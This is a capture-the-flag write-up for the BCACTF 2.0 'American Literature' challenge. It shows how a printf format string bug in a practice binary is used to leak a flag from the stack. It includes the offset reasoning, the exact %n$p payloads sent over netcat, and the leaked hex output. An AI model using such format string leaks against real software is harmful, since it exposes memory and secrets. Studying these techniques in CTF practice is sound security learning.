

# BCACTF 2.0 – American Literature

* **Category:** Binex
* **Points:** 150
* **Author:** [Wesley V](https://github.com/retoxified)

## Challenge

> Writing essays is so much fun! Watch me write all these totally meaningful words about other words... Actually, wait. You shouldn't be reading my essays. Shoo!

## Solution

The challenge page provides us with a [binary](Backup/amer-lit) and the [C code](Backup/amer-lit.c) it was compiled from.

Reading through the code we noticed that this challenge would output whatever we write using printf, opening it up to a string format vulnerability. By constructing a string full of format specifiers we can leak values from the stack, and it just so happens to be that the flag is read into a buffer on the stack. To figure out where this buffer is located I loaded the binary up in [Ghidra](https://ghidra-sre.org/) to inspect the disassembled main function:

The flag is stored in local_78(rbp-0x70), to target specific arguments we can use the format `%2$p` where 2 is the index of the parameter we want to print. However, for our printf vulnerability we have to keep in mind that the first 6 parameters are stored in registers(RDI, RSI, RDX, RCX, R8, and R9), not on the stack. So to get to our flag we need to take 0x70 / 8 = 14 and add another 6 for the registers. This means the flag should start at `%20$p`. Due to our length constraint we can only fit 9 format specifiers in the input.

Connecting to the remote host with `nc bin.bcactf.com 49157` and entering `%20$p%21$p%22$p%23$p%24$p%25$p%26$p%27$p%28$p` gets us the following(split up for clarity)
> 0x747b667463616362
> 
> 0x6e5f796c6c61746f
> 
> 0x6f6c706d655f746f
> 
> 0x6568745f676e6979
> 
> 0x5f666f5f6573755f
> 
> 0x5f636972656e6567
> 
> 0x6f745f7364726f77
> 
> 0x745f68636165725f
> 
> 0x69757165725f6568

Plugging this in to [CyberChef](https://gchq.github.io/CyberChef/) with Swap Endianness with 8 byte word size and From Hex as format results in:
>bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_requi

It seems like we're still missing some bit, doing the same thing again with `%29$p%30$p%31$p%32$p%33$p%34$p%35$p%36$p%37$p` as input results in:
> 0x64726f775f646572
> 
> 0x6e5f74696d696c5f
> 
> 0x5f746f6e5f65706f
> 
> 0x7ffe007d656d
> 
> 0xb6676a39b64da300
> 
> (nil)
> 
> 0x7fb3bc82d0b3
> 
> 0x310x7ffe3add5258

in the middle of 0x7ffe007d656d is the \0 terminator that marks the end of the string, removing the unnecesary data results in the final block of hex data being

> 0x747b667463616362
> 
> 0x6e5f796c6c61746f
> 
> 0x6f6c706d655f746f
> 
> 0x6568745f676e6979
> 
> 0x5f666f5f6573755f
> 
> 0x5f636972656e6567
> 
> 0x6f745f7364726f77
> 
> 0x745f68636165725f
> 
> 0x69757165725f6568
> 
> 0x64726f775f646572
> 
> 0x6e5f74696d696c5f
> 
> 0x5f746f6e5f65706f
> 
> 0x7d656d

Which when plugged in to [CyberChef](https://gchq.github.io/CyberChef/) results in the full flag:

`bcactf{totally_not_employing_the_use_of_generic_words_to_reach_the_required_word_limit_nope_not_me}`